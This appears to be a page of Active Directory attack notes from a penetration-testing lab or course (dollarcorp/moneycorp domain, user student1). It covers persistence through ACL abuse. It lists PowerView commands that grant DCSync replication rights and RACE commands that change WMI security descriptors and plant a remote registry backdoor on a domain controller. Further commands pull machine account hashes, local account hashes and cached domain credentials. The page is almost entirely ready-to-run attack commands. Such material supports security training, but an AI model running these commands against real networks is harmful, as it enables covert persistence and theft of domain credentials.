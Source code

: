 With Domain Admin privilege we can modify ACL of domain root to allow student1 user the ability to perform dcsync by providing access to replication rights.

- Adding rights for dcsync for student1 user using powerview
```
Add-DomainObjectAcl -TargetIdentity 'DC=dollarcorp,DC=moneycorp,DC=local' -PrincipalIdentity student1 -Rights DCSync -PrincipalDomain dollarcorp.moneycorp.local -TargetDomain dollarcorp.moneycorp.local -Verbose 
```
# Persistance using ACLs - Security Descriptors
With DA privilege it is posible to make changes to ACLs aka modify owner, primary group, dacl(read,write,execute,delete,full control) of multiple remote access methods to allow access to non admin  users. 

- Using RACE tool
```
. C:\AD\Tools\RACE-master\RACE.ps1
```
- On local machine for student1:
```
Set-RemoteWMI -SamAccountName student1 -Verbose
```
- On remote machine for student1 without explicit credentials:
```
Set-RemoteWMI -SamAccountName student1 -ComputerName dcorp-dc -namespace 'root\cimv2' -Verbose
```
- On remote machine with explicit credentials. Only root\cimv2 and nested namespaces:
```
Set-RemoteWMI -SamAccountName student1 -ComputerName dcorp-dc -Credential Administrator -namespace 'root\cimv2' -Verbose
```
- On remote machine remove permissions:
```
Set-RemoteWMI -SamAccountName student1 -ComputerName dcorp-dc -namespace 'root\cimv2' -Remove -Verbose
```
# Persistance using ACLs - Remote Registry
- Using RACE 
```
Add-RemoteRegBackdoor -ComputerName dcorp-dc -Trustee student1 -Verbose
```
- As student1, retrieve machine account hash:
```
Get-RemoteMachineAccountHash -ComputerName dcorp-dc -Verbose
```
- Retrieve local account hash:
```
Get-RemoteLocalAccountHash -ComputerName dcorp-dc -Verbose
```
- Retrieve domain cached credentials:
```
Get-RemoteCachedCredential -ComputerName dcorp-dc -Verbose
```
